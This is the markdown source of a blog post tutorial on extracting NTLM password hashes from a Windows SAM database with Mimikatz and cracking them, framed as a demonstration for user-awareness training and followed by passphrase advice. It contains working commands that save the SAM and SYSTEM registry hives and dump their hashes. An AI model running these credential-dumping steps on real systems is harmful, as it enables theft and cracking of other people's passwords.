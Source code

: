 ```yaml
---
author: Josh
date: 2020-11-23
layout: post
title: "Dumping NTLM Hashes from SAM using Mimikatz"
image: https://joshdawes.com/images/2020-11/mimikatz.png
description: Mimikatz is a tool that can allow you to extract all kinds of Windows secrets. In this post I will show you how to dump password hashes from a SAM database.
permalink: /dumping-ntlm-hashes-from-sam-using-mimikatz/
---
```


![image](/images/2020-11/mimikatz.png){: .center-image }

Previously I had written a blog post on [Dumping NTLM Hashes](https://joshdawes.com/dumping-ntlm-hashes/){:target="_blank"}
 with SamDump2. This method does not work for PCs running Windows 10 1607 or newer. I found this [great write up](https://www.insecurity.be/blog/2018/01/21/retrieving-ntlm-hashes-and-what-changed-technical-writeup/){:target="_blank"} explaining what changed with 1607. 

With these changes, different methods are required to dump NTLM hashes. One of these methods is to use Mimikatz. Mimikatz is a tool that can allow you to extract all kinds of Windows secrets. In this post I will show you how to dump password hashes from a previously acquired SAM (Security Account Manager) database. You will also need to acquire the SYSTEM database so Mimikatz can use the SysKey to decrypt the SAM database. The SAM and SYSTEM databsases are located in:

```
C:\Windows\system32\config\
```

# Prerequisites

Download [Mimikatz](https://github.com/gentilkiwi/mimikatz){:target="_blank"} and extract to C:\mimikatz_trunk

Save your victim SAM and SYSTEM databases in the Mimikatz directory. i.e. C:\mimikatz_trunk\x64

# Saving SAM and SYSTEM Databases

To quickly get a SAM and SYSTEM database run the following commands:

```
reg save HKLM\SAM c:\mimikatz_trunk\x64\SAM
reg save HKLM\SYSTEM c:\mimikatz_trunk\x64\SYSTEM
```

Note: You will be required to have administrator access to run these commands, and your directory must already exist. 


# Dumping Hashes
Now that you have Mimikatz and both the SAM and SYSTEM databases in the same directory, double click on mimikatz.exe. 

You will be presented with the mimikatz command line. The first command you’ll want to run is the log command. This will allow you to save the output of what you are doing to a file for later reference. Start logging with the following command:

```
log mimikatz.log
```

The log file will save in the current directory. 

You can now run the command to dump the hashes from the SAM database. This will be conveniently written to your log file.

```
lsadump::sam /system:SYSTEM /sam:SAM
```

The hashes will also appear on the screen. Type <strong>exit</strong> to close Mimikatz.

# Finding your Hashes

Now that you have dumped the hashes you can check your log file to view them. They will look something like this:

```
RID  : 000003ea (1002) 

User : User1 

  Hash NTLM: 0ea0e4bb502bd4acaf6997d7c26b54d1 

  

RID  : 000003eb (1003) 

User : User2 

  Hash NTLM: 326f5f6c590b925012b8930758b42148 

  

RID  : 000003ec (1004) 

User : User3 

  Hash NTLM: 1337bdd3c9fa21e8d72849e1618d2535 

   

RID  : 000003ed (1005) 

User : User4 

  Hash NTLM: 9ad1180ec59ccbca760e6de738fb4d70 

  

RID  : 000003ee (1006) 

User : User5 

  Hash NTLM: 6b56ad7d13656b993ded0758f58794f6
```

Copy the <strong>Hash NTLM</strong> string into another text file so you have a text file that looks like the one below.

```
0ea0e4bb502bd4acaf6997d7c26b54d1 
326f5f6c590b925012b8930758b42148 
1337bdd3c9fa21e8d72849e1618d2535 
9ad1180ec59ccbca760e6de738fb4d70 
6b56ad7d13656b993ded0758f58794f6
```

These hashes can then be loaded into Hashcat or John the Ripper to attempt to crack the password.

# Creating a Stronger Password

It is not practical to have a 30-character randomly generated string of characters for your Windows password. Typing this in every time you came back to your desk would be tedious and it would be somewhat impossible for most people to remember. Could you imagine typing in <strong>@nZYf6S%&zZUjf4)YXc9=Y}7Yg{gPB</strong> every time you sat down at your desk? 

Users tend to go with something that is easy to type and easy to remember. i.e. a single word with a capital letter at the beginning and a number at the end, i.e. Summer2020.

Unfortunately, these simple passwords can be cracked very quickly. 

I recommend using a passphrase. A passphrase, while still a password, is multiple words put together which makes it harder for an attacker to crack but should still be reasonably simple to remember after a few days of logging in. It is best to create a passphrase using [diceware](https://theworld.com/~reinhold/diceware.html){:target="_blank"}.

An example diceware password is: <strong>preacherherringcirclelumpiness</strong> 

Of course, you will still need to add some uppercase letters, lowercase letters, symbols, and numbers to meet password requirements. Leaving you with something like:<br><strong>124/Preacher/Herring/Circle/Lumpiness</strong> 

Both Samsung and Apple have built in password managers that you could use to store the passphrase until you remember it.

# Conclusion

Running a simple password dump and cracking the hashes during user awareness training is a great way to highlight how easily a weak password can be exploited. Users can see in real time how quickly an attacker could crack their password, and you can show how quickly an attacker can pivot from there.
